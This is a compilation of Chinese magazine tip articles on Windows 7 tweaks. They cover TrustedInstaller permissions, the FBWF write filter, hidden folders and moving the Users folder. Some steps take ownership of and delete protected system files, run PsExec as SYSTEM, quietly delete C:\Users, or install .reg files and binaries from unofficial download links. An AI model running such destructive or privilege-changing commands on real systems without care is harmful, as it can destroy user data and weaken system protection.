Windows7旗舰版中包含了一个比较有特色的功能—“移动中心”，通过移动中心的功能入口，我们可以快速访问诸如扬声器音量、无线网络连接状态和显示器亮度这些常用的设置，由于所有这些设置都位于一个位置中，所以能够节省时间，不需要记住每个设置所在的位置，对于经常提着笔记本电脑在各地奔走的人们来说非常有用。但遗憾的是其他版本的Windows7中未包含该功能（比如一般的笔记本电脑中标配的家庭版）。如果想要在其他版本中添加这个功能，我们只要在微软的官方网站上下载安装“drvupdate-x86”补丁程序(下载地址：http://www.microsoft.com/download/en/details.aspx?displaylang=en&id=14)，就可以通过运行mblctr.exe打开这一功能了，如果还打不开，可以将注册表[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\MobilityCenter]中MobilityCenter项键值改为00000000，以后要使用为mblctr.exe创建快捷键Win+X就可以轻松访问了。除了在其他版本中运行外，我们还可做如下修改：将HKEY_CURRENT_USER\Software\Microsoft\MobilePC\AdaptableSettings下的SkipBatteryCheck键值改为00000001，将HKEY_CURRENT_USER\Software\Microsoft\MobilePC\MobilityCenter下的RunOnDesktop键值改为00000001，这样移动中心也可以在台式机上运行了。

（文/叶勇）

## 系统安全守护神——TrustedInstaller账户解密

由于自己硬盘空间比较紧张，小张准备根据网上介绍的方法进行手动减肥。可是在试图删除“C:\Windows\System32\IME”文件夹下的多余的日文和韩文输入法时，系统却提示需要TrustedInstaller提供的权限才能对此文件进行更改。

## 揭起你的盖头来——初识TrustedInstaller账户

大家知道Win7相比WinXP系统，它使用了更为严格的权限保护。默认情况下很多重要的系统文件都添加了严格的权限保护。Windows资源保护(英文简称WRP)就是其中一个重要权限保护措施，TrustedInstaller正是执行WRP的账户。

> 小知识：什么是TrustedInstaller账户和Windows资源保护

TrustedInstaller，全称为“NT service\TrustedInstaller”，它其实是Win7中内置的一个虚拟账户。原来在Windows Vista/7中，系统会对重要的系统文件夹，例如“C:\Program Files”、“C:\Windows”、“C:\Windows\system32”等进行安全保护。默认情况下对系统文件读取只有TrustedInstaller才有完全控制权。

Windows资源保护(英文简称WRP)，这是从Vista开始引进的一个重要安全特性。它利用资源的权限设置，设置只有TrustedInstaller账户才是资源的所有者和拥有完全控制权限，就连管理员组的Administrators也没有完全控制的权限，只有受信任的安装包才可以使用TrustedInstaller账户的身份修改系统文件夹下的内容。

而且在默认情况下，系统管理员账户是无法对文件的权限进行编辑的，这就有效保护系统文件被误删除或者被非授权重命名，导致系统的不稳定。

在上述操作中，虽然小张已经以Administrator身份登录，但是由于WRP保护，所以Administrator没有删除文件权限，导致小张无法删除输入法文件。通过右击文件，选择“属性→安全”，在“组和用户名列表”下可以看到系统的“Administrators组”对该文件只有“读取和执行”、“读取”权限（而且权限编辑复选框是灰色无法更改），这就是无法删除输入法文件的原因。

小提示：Win7还有很多系统文件（夹）是受系统中另一个特殊账户SYSTEM保护，比如保存系统修复环境的“C:\Recovery”目录，保存系统还原的“System Volume Information”等，这些账户完全控制权限赋予SYSTEM账户，即使我们以Administrator身份登录也无法进入上述目录。

## 对症下药，获取TrustedInstaller权限

既然文件无法删除是由于权限的原因导致，解决方法自然是更改文件权限，使当前管理员账户获得该文件“完全控制”权限。不过对于受Windows资源保护的文件，我们需要先取得文件所有权，接着才能对权限进行更改。

首先到http://www.kuaipan.cn/index.php?ac=file&oid=3237430383608212下载“管理员取得所有权.reg”，下载后导入注册表，现在只要再次选中上述文件右击选择“获取管理员权限”，成功变更权限后即可轻松删除受保护系统文件了。

> 小提示：“管理员取得所有权.reg”实际上是一个批处理命令，它包含“takeown”（变更文件所有者为当前账户）和“icacls”（编辑权限赋予当前账户“完全控制”权限）命令，通过变更所有者和权限来获取文件完全控制权，从而实现对操作文件（夹）的完全控制权限。这也是Win7下对付权限问题的通用解决方法。

但是，如果要更改的权限文件很多，比如要删除升级安装后出现的“windows.old”目录，此时可以使用PE启动盘引导进入PE系统，使用SYSTEM登录批量删除受权限保护的文件。PE的SYSTEM账户和Win7内置SYSTEM账户不同，前者默认拥有对所有文件的完全控制权。

## 应用扩展：使用TrustedInstaller账户保护重要文件

从上面描述我们知道了Windows资源保护可以很好保护文件的安全，那我们何不将自己重要个人文件也设置为受Windows资源保护呢？比如现在需要设置“c:\windows\今日计划.txt”受Windows资源保护。

+   第1步：右击“c:\windows\今日计划.txt”选择“属性→安全”，单击右下角的“高级”按钮，打开“高级安全设置”对话框，切换到“所有者”选项卡，依次打开“选择用户或组”对话框，输入“NT SERVICE\TrustedInstaller”，单击“确认”将当前文件所有者设置为“TrustedInstaller”，这样就恢复了系统默认设置。
第2步：返回高级安全属性编辑窗口，切换到“权限”选项卡，单击“更改权限”，在打开的窗口去除“包括可从该对象的父项继承的权限”前的勾选，在打开的对话框单击“删除”。
第3步：返回权限编辑窗口，依次单击“选择用户或组”，添加“Administrators组”到组和用户名列表，并将其允许权限设置为“读取和执行”、“读取”。
第4步：同上，继续添加“NT SERVICE\TrustedInstaller”账户到组和用户列表，将其允许权限设置为“完全控制”，最后依次单击“确定”返回。经过上述设置后，“c:\windows\今日计划.txt”就不再受Windows资源保护了。即使用户以管理员身份打开该文件属性设置窗口，用户也是无法对权限进行编辑（编辑按钮为灰色不可用，但是不影响用户读取和运行），这样可以有效保护自己文件的安全，其他要保护文件的操作类似。

## 小提示：快速恢复系统文件默认权限

Windows资源保护可以有效保护系统文件安全，如果错误对受保护的系统文件进行了更改，可能导致系统运行不稳定。要恢复系统默认保护，只要以管理员身份启动命令提示符，输入下列的命令即可恢复默认保护：

```
icacls c:\Windows\System32 /reset
icacls c:\Windows\System32 /inheritance:d
icacls c:\Windows\System32
```

执行上述命令之后“System32”文件夹即可恢复默认权限（其他系统目录操作类似），接着操作同上，将目录所有者设置为“NT SERVICE\TrustedInstaller”即可。

## 写在最后：谁才是Win7中拥有最高权限的账户？

由于Win7系统使用了更为严格的权限设置，在日常操作中我们经常会遇到权限故障，有些是系统正常保护，有些则可能是病毒故意为之。那么谁才是Win7中拥有最高权限的账户？使用哪个账户登录系统才有畅通无阻的至高权限呢？

TrustedInstaller账户？在上面介绍中，我们已经知道TrustedInstaller账户默认拥有全部系统文件完全控制权限，不过TrustedInstaller只是个虚拟账户，我们无法使用它登录系统使用，因此也就无法测试TrustedInstaller账户的权限。

Administrator账户？在上述实例中，我们已经知道Administrator账户无法删除系统文件。

SYSTEM账户？网上很多文章介绍Win7内置SYSTEM账户才是最高权限账户，那么实际情况如何，大家可以自行测试一下。到http://www.kuaipan.cn/index.php?ac=file&oid=3237430383608211下载“PsExec.exe”，然后将其复制到“c:\windows”，接着以管理员身份启动命令提示符，继续启动“任务管理器”将“Explorer.exe”进程终止，返回命令提示符界面。在其中输入“PsExec -i -s -d explorer.exe”，回车后就会启动SYSTEM账户的桌面。现在打开“c:\windows\system32”删除任意文件，是不是提示仍然没有权限？实际上对于受Windows资源保护的系统文件，SYSTEM账户也是没有完全控制权限的。

那么到底哪个账户才有最高权限？答案是：没有。因为在Win7中不同账户默认被系统分配不同权限，没有一个账户拥有对全部文件的完全控制权限，但是我们可以手动获得系统最高权限，方法有两个（这也是解决权限问题的常用方法）：

方法1：在Win7中通过导入“管理员取得所有权.reg”，然后通过右键菜单获取任意文件的所有权和完全控制权限，这样当前管理员账户就是拥有最高权限的账户。

方法2：使用PE系统。因为PE默认使用SYSTEM账户登录（注意：这是PE系统里的SYSTEM账户，而不是Win7系统内置的SYSTEM账户），这个账户默认拥有对所有文件完全控制权。

(文/平淡)

## 巧设规矩 让音量学会自动调整

小赵今天遇到了一件尴尬事——在公司召开的会议上，当他在操作本本记录内容时，无意中双击了某个音乐文件，这下可好了，响亮的音乐从本本中发出，破坏了会议严肃的气氛。小赵慌忙手忙脚乱的关闭声音。看到这一幕闹剧，老总有些生气，点名批评了小赵。小赵想，如果能够为音量设置定时调整功能，让其该出声的时候出声，该“闭嘴”的时候静音，不就可以避免上述“悲剧”了吗？有了Volume Concierge这款免费的小软件，小赵终于巧妙地解决了上述问题。

在上班期间，例如上午八点到十二点，下午两点到五点半，最好让电脑静音或者设置极低的音量，其余的时间，可以设置正常音量。在Volume Concierge主窗口左下角点击“Add New Volume Rule”按钮，可以自动添加一条空白规则。在其最左侧拨动开关，将设置为绿色“On”状态，表示激活本规则，在列表中选择“Every Day”项，表示每天都执行本规则。当然，也可以选择“Work Days”或者“Weekends”项，表示针对工作日或者周末使用本规则。

在时间栏中选择具体的触发时间，范围从零点到二十四点，间隔为十五分钟。小赵选择了“8:30”项，表示从上午八点半开始执行本规则。在其右侧拖动滑块，选择较低的音量，例如5%等。这样当到八点半后，电脑音量自动调整到预设值。小赵继续点击“Add New Volume Rule”按钮，新建一条规则，将时间点设置为“12:00”，将音量调整到正常值，例如80%等。这样当到达十二点后，音量恢复到正常状态。按照同样的方法，小赵又添加了两条规则，时间点分别设置在“14:30”和“17:30”，音量分别设置为0和90%。这样下午上班后，音量自动归零，当下班后后音量恢复到正常值。


(文/郭建伟)

## 设置专用工具 “透视” 绝密文件

对于普通的加密软件来说，当您想访问它时，必须先输入密码，然后才可以正常使用。想不想来点更安全的新鲜用法？试试Private Folders这款独特的加密软件吧，它提供了独特的程序认证功能，允许特定的程序穿透Private Folders保护层直接操作加密文件。本文以提供了完善的文件浏览导航功能的WinRAR为例，作为透视加密文件的专用工具。别人无论如何也想不到，看似普通的WinRAR还会具有如此“魔力”。

## 添加保护对象

在默认状态下，Private Folders的保护功能处于开启状态。在Private Folders主窗口工具栏上点击“Add”按钮，在弹出窗口中点击浏览按钮，选择目标文件夹（例如D盘中的“机密信息”文件夹）。在“Protection method”栏中选择保护模式，包括“Hide and Lock”（隐藏并锁定）、“Hide”（隐藏）、“Read Only”（只读）、“Lock”（锁定）、“Unprotect”（未保护）等。这里建议选择“Hide and Lock”项，这样“机密信息”文件夹就从系统中消失了，之后使用资源管理器等工具，是无法发现该文件夹行踪的。按照上述方法，您可以加密隐藏任意文件夹。

## 访问机密文件的“老套路”

按照常规方法，当您想访问这些受到保护的文件夹时，需要进入Private Folders主界面，在工具栏上点击“Disable”按钮，取消Private Folders保护状态，之后才可以将这些文件夹“现身”，进而访问其中的文件。使用完毕后，在Private Folders主界面中点击“Enable”按钮，恢复Private Folders保护功能。当然，也可以直接点击暂停保护热键，输入密码后，解除对应文件夹的加密状态，从而访问所需的机密文件，使用完成后点击激活保护热键，恢复Private Folders的保护功能。

## 使用 WinRAR 透视机密文件

这些方法比较繁琐，也很容易暴露您的秘密。使用Private Folders提供的进程信任功能，可以另辟蹊径，悄无声息地访问加密文件夹。在Private Folders主界面中点击菜单“Protection” → “Trusted processes”项。在弹出窗口中点击“Add”按钮，在“Running processes”列表中选择当前的进程列表，从中选择“Winrar.exe”进程。如果WinRAR没有启动，也可以点击浏览按钮，进入WinRAR安装路径，选择“Winrar.exe”文件。点击OK按钮，将WinRAR加入到可信任列表中。当然，这里仅仅使用WinRAR作为例子，您也可以将其它具有文件浏览功能的软件（例如FileAnt, WinZIP, IE等等）加入到信任进程列表中。之后，WinRAR就具备有穿透Private Folders保护层的功能。

进入WinRAR主界面，利用WinRAR的文件导航功能，进入对应的磁盘或者文件夹中，可以看到，原本处于加密隐藏状态的文件夹已经悄然“现身”了。您可以直接进入其中，浏览相关的文件。如果您想在WinRAR中直接查看加密文档，可以在WinRAR设置窗口中的“查看器”面板中点击“浏览”按钮，选择Word作为默认查看工具，这样在WinRAR中双击目标文档，就可以调用Word查阅其内容了。如果您觉得在WinRAR中不方便对文件进行操作，可以直接将所需文件拖动到桌面等位置，这样就将其从Private Folders的保护壳中提取出来了，别人无论如何也想不到，看似普通的WinRAR竟然是通向机密文件的透明通道。这样就大大提高了操作机密文件的灵活性。

## 设置 Private Folders

在Private Folders主窗口中点击菜单“Tools” → “Change password”项，在弹出窗口的输入密码，因为是初次使用，原始密码保持为空。点击OK按钮，完成密码设置。以后当进入Private Folders主界面，或者暂停其保护状态时，必须输入该密码。点击菜单“Tools” → “Settings”项，在设置窗口左侧点击“Hot keys”项，在右侧窗口中的“Open Private Folders”栏中可以设置激活热键（默认为“Ctrl+Shift+F”）。以后可以点击该键，直接进入Private Folders主界面。在“Enable protection”和“Disable protection”栏中可以分别设置激活或者取消保护状态的密码。这样，您不管在任何时候，只要点击上述两个热键，即可快速激活或者暂时关闭Private Folders保护功能。

实际上，即使您因为疏忽，在存取完机密文件后，忘记激活Private Folders保护功能的话，使用Private Folders内置的自动激活功能，同样可以保障您的数据安全。在窗口左侧点击“Options”项，在窗口右侧可以激活隐藏Private Folders安装信息，在启动屏保时激活保护功能，在系统进入休眠或者挂起状态时自动激活保护功能，在系统处于空闲状态超过预设值（默认为10分钟）后自动激活保护功能等选项。

(文/郭建伟)

## 我的系统特效我做主

在Windows 7中铺设壁纸，是美化桌面的好办法。如果我告诉您：壁纸还有其它更多的用途，您相信吗？实际上，在Windows 7中，壁纸的功能还真不简单，当然，这需要相关软件的配合才行，本文就列举了几个简单的例子，来帮助您扩展壁纸的功用。

## 让Aero特效看壁纸的“脸色”行事

同Windows XP“简陋”的界面相比，Windows 7提供的Aero透明特效看起来的确很炫酷。不过在默认状态下，Aero特效的色彩效果是无法更改的。这一点让人感觉很不爽，千篇一律的外观看的时间长了也会让人感到厌倦的。如果让Aero特效能够跟随壁纸变化，就可以打破上述沉闷的气息了。使用Aero Adjuster这款免费的软件，就可以赋予壁纸上述“魔力”。Aero Adjuster的使用方法很简单，首先设置好您喜欢的壁纸。在系统托盘中右击Aero Adjuster图标，在弹出菜单中点击“Fit Aero color to wallpaper color”项，Aero特效的色彩外观就立即和壁纸“保持一致”了。

实际上，结合Windows 7内置的壁纸动态更换功能，我们可以很轻松地实现Aero色彩动态变化功能。在桌面上点击右键，在弹出菜单中点击“个性化”项。在个性化窗口点击“桌面背景”链接，在桌面背景设置窗口中的“图片位置”栏点击“浏览”按钮，选择目标图片文件夹。Windows 7即可将其中的所有图片导入到壁纸列表中，点击“全选”按钮。之后在窗口底部的“更改图片时间间隔”列表中选择合适的时间（范围从10秒到1天）。这样，Windows 7就会按照预设的时间自动更改桌面壁纸了。当壁纸发生变动后，Aero Adjuster会自动根据壁纸色彩来动态地调节Aero特效的色彩外观。如果您想恢复默认的Aero色彩，在Aero Adjuster菜单上点击“Restore original Aero color”项即可。

## 让Windows 7登录背景和壁纸“看齐”

同老旧的Windows XP相比，Windows 7的登录背景看起来更加赏心悦目。如果可以动态更改登录背景画面，那么每一次启动，都会给您带来不同的视觉感受。在凡事都讲究和谐统一的当下，如果让登录背景和桌面壁纸保持“步调一致”的话，您的Windows 7就会变得更加美观别致。试试InstantLogonChanger这款免费的软件吧，它可以让登录背景和壁纸紧密“团结”在一起。在InstantLogonChanger设置窗口中的“Logon Background”面板中点击“Use current wallpaper as logon background”按钮，当前的壁纸图片就会自动变成登录背景画面。点击“Win+L”键，可以看到，登录背景和壁纸是完全同步的。如果您开启Windows7的壁纸自动更换功能的话，通过勾选“Always use your desktop wallpaper as logon background”项，可以让Windows 7登录背景自动跟随壁纸变化，这样就巧妙地实现了登录背景自动更换功能。当然，InstantLogonChanger还提供了其它更换登录背景的方法。点击“Use your own image as logon background”项，可以将选定的图片作为登录壁纸。点击“Use solid color as logon background”项，可以将选定的单一色彩作为登录背景等。如果想恢复默认的登录背景，点击“Restore default logon background”按钮即可。

(文/郭建伟)

## “你复制 我粘贴”

复制、粘贴，用Ctrl+C、Ctrl+V很平常，但也很麻烦，特别是在进行大量复制粘贴时，其实，当我们按下Ctrl+C后，接下来的操作一般就是进行粘贴，这样固定的工作可以交给电脑自动完成。你只要指定粘贴的地方即可，软件“Clickto”（下载地址：http://www.clicktoapp.com/）就能提供这样的服务。

## Step1: 为粘贴之处找家

软件安装运行后，首先要为粘贴内容找到安身之处，这些安身之处可以是Word文档，也可以是搜索引擎等，目前软件默认提供了22款程序作为安身之处。右击托盘中软件图标，从右键菜单中选择“Options”，选中“Actions”标签，从列表中勾选所需程序，你可以同时勾选多个，比如勾选Google、word、Notepad等，最后单击“OK”。

如果自己所需要的程序不在其中，比如软件就没有WPS勾选项，如何把WPS加入其中呢？

在“Options”窗口中，依次单击“Add→Add a Windows application call→Add”，打开“customize cation”窗口，在“name”中输入程序名称，然后单击“Browse”指定WPS主程序。单击“OK”返回到“Options”窗口中，再勾选新添加的WPS程序然后单击“OK”即可。

## Step2: 指向目标直接粘贴

现在我们就可以让电脑自动粘贴了，选中一段文字并复制后，将弹出悬浮窗口，这些窗口中显示的就是可供选择的粘贴文本的去处，比如选择“G”，将直接粘贴到Google搜索引擎中并打开搜索结果。如果选择“W”，则打开Word并进行粘贴，免去了以前在窗口之间切换，并不断按Ctrl+V的麻烦。

(文/曹春华)

## 我的电脑你别动 给Win7装上写保护

我们都知道，刚刚安装完的系统是运行效率最好的。而在使用过程中，有经验的用户往往会把除了必要的软件(如Office、杀毒软件等)安装在系统盘外，其他一些小软件会安装到别的盘，而且尽可能使用那些不对注册表或系统目录有写入操作的绿色软件，这样做的目的就是为了保持系统的干净。但在使用电脑的过程中如果不使用像“还原精灵”这样的专业软件，要杜绝软件对系统写入文件是非常困难的。如果Windows自己也能有这样的功能就好了。

事实上，Windows系统也有这样的功能，只是微软没有把这个功能集成到WinXP/Win7等针对普通用户的系统中，而在Windows Embedded系列系统中却有这样的功能，这个功能叫FBWF，即File Based Write Filter，中文意思是基于文件的写保护过滤。开启FBWF功能后，被保护区域的所有写入，将写入内存而不会写入硬盘，从而达到系统的绝对安全，病毒、木马、流氓软件、误操作、系统垃圾等一概被拒绝。因系统区只读不写，写操作都在内存中进行的，相对速度要比操作硬盘快很多，不仅可以提高性能，同时还有效延长硬盘的寿命。因此，我们完全可以把这一功能移植到WinXP/Win7系统中。本文以Win7为例，移植FBWF的步骤和使用方法如下。

### 1. 把 FBWF 功能植入 Win7 系统

FBWF有32位（下载地址：http://dl.dbank.com/c0kas1d6ua）和64位（下载地址：http://dl.dbank.com/c03rou2mza）两种不同的版本，要根据自己的系统来选择合适的版本（本文以32位Win7为例）。

将对应版本的FBWF下载到本地并解压，把驱动文件fbwf.sys拷贝到“C:\Windows\System32\drivers”目录中，再把fbwfcfg.exe、fbwfcfg.dll、fbwflib.dll和fbwfMgr.exe等四个执行文件拷贝到“C:\Windows\System32”目录中，接着把fbwf.reg合并到系统注册表中，重启电脑后我们就完成了FBWF的植入。

### 2. 激活 Win7 的 FBWF 功能

在一个系统中，我们需要进行一次FBWF的激活操作即可，以后不需要重复激活，但是在使用FBWF功能之后，很多驱动和软件都无法正常保存或安装，因此我们在使用该功能前要做好以下几件事情：

- 1. 把系统必须的驱动安装齐全
- 2. 系统补丁更新到最新
- 3. 必须的第三方软件安装完毕（比如杀毒软件、Office软件、Photoshop、Flash播放器等系统必须的软件）

做好上述准备后，那么激活FBWF功能很简单了，用“Windows+R”打开“运行”，键入cmd进入命令行输入窗口，输入命令“fbwfmgr /enable”，重启一次系统后FBWF就被激活了，当然，如果你没有做好这些准备，而你却开启了FBWF功能，你还可以“fbwfmgr /disable”命令将其关闭再进行各项准备工作。

> 小提示：
★FBWF所有的开关命令都是需要重启才会生效。
★如果你想查看FBWF的状态，只要在cmd命令输入窗口中执行“fbwfmgr.exe”即可。

### 3. 配置 FBWF 的保护目标以及豁免列表

FBWF可以对磁盘进行整体的写保护过滤，可以直接单独对目录和文件设置写保护，但由于系统盘中所有的目录或文件都需要写保护，因此在利用FBWF对系统进行保护之后，还需要设置一个FBWF豁免对象清单。也就是说，FBWF的豁免对象必须是包含在它已建立保护的容器中。

我们知道系统启动主要是读取启动的必要文件或驱动，并将这些文件写入内存中，大多数时候是不会对这些文件进行写入操作的，但并不意味着系统就不要写入，一般情况下需要写入的文件或目录列表如下：

表1: 使用系统过程中可能要进行写入的系统目录或文件

| 目标 | 所在位置 | 不可写入的后果 |
|---|---|---|
| 虚拟内存页面文件 | C:\pagefile.sys | 系统无法使用虚拟内存 |
| 系统休眠存储文件 | C:\hiberfil.sys | 系统无法休眠 |
| 上一次启动状态记录文件 | C:\windows\bootstat.dat | 系统启动过程每次都会提示修复错误 |
| 当前用户桌面 | C:\Users\当前用户\Desktop\ | 当前用户桌面无法保存快捷方式 |
| 系统事件记录 | C:\windows\system32\winevt\Logs | 系统无法记录日志 |
| 回收站 | C:\$Recycle.Bin | 删除文件会直接彻底删除，不可以反悔 |
| 病毒库目录 | C:\KRECYCLE | 以金山毒霸为例，如果没有豁免，病毒库无法更新 |

那么，我们要对C盘进行保护，但又要让系统可以对上述列表进行写入，那么可以在激活FBWF功能后，打开cmd进入命令行输入窗口，依次执行以下命令并重启系统即可。

```
fbwfmgr /addvolume C:
fbwfmgr /addexclusion C:\pagefile.sys
fbwfmgr /addexclusion C:\hiberfil.sys
fbwfmgr /addexclusion C:\windows\bootstat.dat
fbwfmgr /addexclusion C:\Users\administrator\Desktop
fbwfmgr /addexclusion C:\windows\system32\winevt\Logs
```

```
fbwfmgr /addexclusion C:\$Recycle.Bin
fbwfmgr /addexclusion C:\KRECYCLE
```

> 小提示：
“C:”与“\pagefile.sys”之间要空一格，其他同理；如果路径中有空格，必须用半角双引号括起来，如“fbwfmgr /addexclusion C:"Program Files"”即豁免“C:\Program Files”。

### 4. FBWF 更多扩展应用

### 实战1：下载行为我说了算

假设你电脑上有C、D两个分区，其中C为系统盘，已经按照上述的步骤配置了FBWF写保护，然后你希望别人能够使用IE或下载软件进行下载，但希望你这样去规定下载的行为：

- 1. 用户只能把文件保存在“D:\Download”文件夹中，如果文件保存到别的地方将会在重启后自动删除。
- 2. 用户无法随便更改迅雷的配置（包括重新定位的下载目录），如果更改的话，配置在系统重启后又将恢复到初期状态。

当然，笔者寻找了很多软件并研究了系统的各种权限策略，要完成这样的需求，设置会非常麻烦，但利用FBWF却可以轻易完成：

### Step 1：配置IE或下载软件的默认目录。以IE8、IE9以及迅雷7（迅雷安装在C盘或D盘都可以）为例，方法如下：

定义IE8/IE9默认的下载路径：运行“regedit”打开注册表编辑器，依次定位到“HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main”主键，将右侧的窗口中的“Default Download Directory”键值改为“D:\Download”。

定义迅雷7默认的下载路径：在迅雷主界面中依次打开“菜单→工具→下载配置中心”，切换到“我的下载→任务默认属性”选项，然后将“常用目录”项设置为“使用指定的存储目录”，并把目录定位到“D:\Download”，点击“应用”即可。

### Step 2：给C盘和D盘建立写保护。其中，C盘的FBWF配置方法和步骤参考上文，我们只需要将D盘保护起来后，再把“D:\Download”加入豁免列表即可。执行如下命令后重启系统即可：

```
fbwfmgr /addvolume D:
fbwfmgr /addexclusion D:\Download
```

> 小提示：
上面的方法并不能完美地规定下载行为，用户还是可以文件下载到其他豁免的文件夹中，最常见的就是直接保存到桌面上，但这很容易被管理员发现，所以管理起来也方便。

### 实战2：让电脑不能下载超过1GB的文件

由于磁盘容量是有限的，别人在使用你的电脑的时候，你不希望他下载一些容量过大的文件。那么你可以用FBWF设置磁盘可使用空间，从而阻止别人下载超过这个剩余容量的文件，那么执行以下命令即可：

```
fbwfmgr /setthreshold 1024 （设置FBWF覆盖缓冲容量为1024MB，即可写入的磁盘容量，设置范围为128MB~1024MB）
FbwfMgr /setsizedisplay 1 （开启实际模式，即磁盘显示的容量为当前的可用量）
```

（文/金戈铁马）

## 一键直通“隐藏”文件夹轻松打开

为了保护不太重要的个人文件，很多朋友通过为文件夹设置“隐藏”属性的方法来进行简单保护。不过，在防止他人窥视的同时，自己想使用该隐藏文件夹时也十分繁琐：每次都得先在“文件夹选项”中设置“显示”隐藏文件，用完后再设置“不显示”。能不能不用这么麻烦呢？其实，我们只需设置个快捷键就可一键搞定。

### 第一步：

在“文件夹选项”中将“显示所有文件及文件夹”选中后确定，找到我们“隐藏”的文件夹并右击它，在弹出菜单中依次选择“发送到”→“桌面快捷方式”命令，这时在系统桌面上会建立一该隐藏文件夹的快捷方式。

### 第二步：

右击刚建好的快捷方式图标后选择“属性”，打开属性窗口，然后切换到“快捷方式”标签页下，将鼠标指针定位到“快捷键”输入框中，利用Ctrl、Alt等键设置一个系统或软件不常用的快捷键，如：按下键盘上的“Ctrl”、“Alt”、“9”三键即可设置快捷键为“Ctrl +Alt+9”，然后切换到“常规”标签页下，将“隐藏”属性选中后点击“确定”。

### 第三步：

再次回到“文件夹选项”中，选中“不显示隐藏的文件及文件夹”并确定，刚才建立在桌面上的快捷方式也随之“无影无踪”。

以后我们想打开“隐藏”的个人文件夹，只需按下“Ctrl+Alt+9”快捷键即可直通目的地了。

（文/独上西楼）

## 打造不怕崩溃的系统

### 将用户数据从Win7中分离出来

A同学：“我的天啊，桌面，我的文档和我的图片等，还有软件的配置，一切都没了！完了，还得重新配置？”
B同学：“系统咋不能重启了？我的系统盘下还有很多没有来得及转移的资料呢！！全都不见了，心痛啊！”……

这样的情景是不是很熟悉呢？辛辛苦苦地配置好了系统，一崩溃就瞬间回到“解放前”，你岂能甘心？
不甘心又能咋办呢？Win7的用户文件夹默认所在位置是系统盘（通常为C盘）下的“Users”目录之内，该文件夹中储存着所有的用户生成文件，比如“桌面”、“我的文档”、“收藏夹”等，还有大量软件生成的资料也被保存在里面，有没有方法把用户文件夹（即C:\Users目录）挪到另一个磁盘分区上（比如D盘或E盘），这样就可以在不必担心系统崩溃而丢失配置文件了。方法肯定是有的，要不写这篇文章干嘛，请继续往下看！

### 一、用户文件夹设置在系统盘上有啥坏处

当然，所有用户生成的资料全部保存在系统盘下的坏处是非常明显的，常见有两个方面：

- 1. 文件丢失。系统盘一旦遭遇病毒或其他什么原因而崩溃，就可能连带用户文件一并丢失，而且还有不少人习惯把文件直接放在桌面上，这些数据也可能没有了。
- 2. 占用空间。在使用电脑的过程中，用户所安装的各种软件也会生成一些用户数据，并且这些数据在使用过程中还会不断增加，时间久了之后，用户文件夹就会变得异常庞大，如果系统盘本身的剩余空间并不多，还会影响系统的运行效率和速度。

小提示：如何查看当前用户生成了多少数据？

用“Windows+R”组合键打开“运行”，输入“%UserProfile%”即可快速查看当前用户都有哪些配置文件，如果“%AppData%”则可以看到当前用户所安装的软件生成了哪些数据。

### 二、如何将“C:\Users”迁移出系统盘

### 实战1：安装新系统的过程中把“C:\Users”迁移到其他盘

假设我们要在一台电脑上安装Win7，硬盘有C、D两个，把系统安装在C盘，但把用户数据文件夹设置D盘下，即“D:\Users”中。

第一步：按正常的系统安装步骤开始安装Win7，在安装Win7的过程中，到要求输入用户名及密码的时候暂停下一步，先不输入任何信息。
第二步：此时，按“Shift+F10”呼出CMD命令输入窗口，输入以下命令：

```
Robocopy "C:\Users" "D:\Users" /E /CopyAll /XJ
RmDir "C:\Users" /S /Q
Mklink /J "C:\Users" "D:\Users"
ShutDown /r
```

第三步：命令均执行完毕后，稍等片刻电脑会重启一次，重启后再次进入用户配置界面，按部就班配置系统直至完成即可。

小提示：
★迁移的目标盘符必须为NTFS格式（即D盘为NTFS格式），如果不是，请在进入安装界面后用“Convert D:/fs:NTFS”命令将其转换为NTFS格式后再执行命令。
★用这种方法将用户文件夹搬到D盘后，C盘依然存在一个“Users”的文件夹，但这是一个J型软链接（英文为SoftLink），是用Mklink加“/J”开关后即可创建，但必须在原来的同名文件夹被删除后才能建立这样的软链接。
★Mklink可以建立硬链接（HardLink）和软链接（SoftLink），是NTFS文件系统的特性之一。本文涉及的均为软链接，可分为J型（Junction）和D型（Symlinkd）两种，更多介绍请看下文。
★Mklink和Robocopy命令都是Vista和Win7系统自带的命令，都只能在命令提示输入状态才能运行，大家可以用“Mklink /?”或“Robocopy /?”命令来查看它们的用法。

### 实战2：在已安装Win7的系统上迁移用户数据

新安装的电脑过程中，在进入首次配置过程的“用户和账户输入画面”时，系统还没有登录过任何用户，系统还没有生成和调用相应的用户数据，但如果已经配置好了账户并顺利进入到桌面后，当前用户会调用“C:\Users”文件夹中的文件，因此是不能直接对其操作的（因为该文件夹正在被使用）。在这种情况下，迁移“C:\Users”的思路就要变换一下，由于这样登录的账户并非系统内置管理员（Administrator），那么我们可以用先开启Administrator，然后在该账户下迁移其他用户数据，但不对它本身进行操作，操作完成后再切换回原来的登录账户并停用Administrator账户并将其用户数据删除。

第一步：非内置管理员（假设为Test）登录到系统后，用“Windows+R”呼出“运行”，键入“cmd”打开命令输入窗口，输入以下命令激活“Administrator”账户：

```
Net Users administrator /active:yes
```

第二步：注销（注意，不是“切换用户”）当前账户并以“Administrator”账户再次登录系统，然后打开命令输入窗口，输入以下命令：

```
Robocopy "C:\Users" "D:\Users" /E /COPYALL /XJ /XD "C:\Users\Administrator"
```

```
Net Users administrator /active:no
```

第三步：上述命令执行完毕后，除了当前Administrator账户的配置文件没有被拷贝到“D:\Users”外，其他的都已经拷贝该位置，此时再次注销Administrator账户并以最开始的账户（即Test账户）登录Win7，然后以管理员身份打开一个命令输入窗口，输入以下命令：

```
RmDir "C:\Users" /S /Q
Mklink /J "C:\Users" "D:\Users"
```

### 实战3：把内置管理员账户配置文件迁移到其他盘

上面的实战2中，我们是把最开始配置的账户，即“Test账户”数据迁移到其他分区了。不过，如果你已经开启并正在使用内置管理员账户，又怎样将它迁移到其他盘呢？在使用了内置账户后，系统会在“C:\Users”创建很多文件，即便是用其他管理员账户登录系统，用“Robocopy”去拷贝“C:\Users\Administrator”会有很多文件无法拷贝，所以我们在上述实例中Robocopy命令增加了“/XD "C:\Users\Administrator"”开关，意思就是拷贝“C:\Users”，但不拷贝它下面的“Administrator”文件夹。而我们现在需要拷贝这个文件夹，怎么办呢？

第一步：重启电脑时按F8键，进入“高级启动选项”画面后选择进入第一项“修复计算机”。
